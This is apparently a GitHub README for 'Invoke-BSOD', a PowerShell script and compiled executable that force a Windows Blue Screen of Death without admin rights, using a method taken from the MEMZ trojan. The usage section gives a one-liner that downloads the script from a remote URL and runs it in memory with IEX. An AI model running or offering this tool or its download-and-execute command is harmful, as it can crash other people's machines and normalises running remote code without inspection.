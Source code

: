 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges.

This is a standalone script, **it does not depend on any other files here.**

Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Invoke-BSOD
```
OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also creates a Blue Screen of Death.

Useful when you don't have PowerShell?

### Program.cs

The C# source behind BSOD.exe
